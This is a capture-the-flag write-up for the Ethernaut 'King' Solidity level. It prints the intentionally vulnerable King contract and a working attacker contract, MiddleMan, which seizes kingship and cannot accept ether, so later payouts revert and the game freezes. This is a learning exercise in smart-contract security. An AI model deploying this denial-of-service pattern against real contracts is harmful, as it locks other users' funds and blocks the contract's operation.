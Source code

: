 # Level 9 - King

### Objective

The objective of this level is as follows:

1. When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

### Solution

In this level, we need to prevent the `king.transfer()` function from executing by making the current king a malicious contract that cannot receive any ether:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract MiddleMan {
    function getKing(address payable _to) public payable {
        (bool sent, ) = _to.call.value(msg.value)("");
        require(sent, "Failure!");
    }
}
```

Once we deploy the `MiddleMan`, we call `getKing` with a some non-trivial value of ether (~1 Finney) with the level contract address.

Done!
